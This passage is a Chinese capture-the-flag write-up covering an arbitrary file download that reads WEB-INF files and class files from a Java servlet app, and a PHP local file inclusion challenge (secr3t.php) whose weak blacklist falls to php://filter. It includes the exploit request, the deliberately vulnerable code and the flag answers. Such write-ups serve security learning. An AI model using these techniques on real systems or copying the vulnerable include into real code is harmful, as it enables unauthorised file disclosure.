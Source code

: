 help页面尝试任意文件下载，还必须要改成POST才可以。。获得javaweb的/WEB-INF/web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
...
    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

从这里我们看到flag字样，尝试访问servletmapping，有错误。继续尝试任意文件下载

```
POST /Download?filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
```

这样构造是根据servlet-class得知包结构。获得class文件，其中一段base64尝试解密，就获得flag

`flag{467175f3-85f7-4e8c-b35b-a6d3762f2783}`

## [极客大挑战 2019]Secret File(简单前端抓包

一些前端trick。抓包发现隐藏的请求，得到一个文件secr3t.php

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

简单的phpfilter一下获得base64就好了。

`flag{3f1ed6c1-cc9b-4fd1-917c-02f664f24085}`

## [0CTF 2016]piapiapia(代码审计、利用漏洞构造反序列化
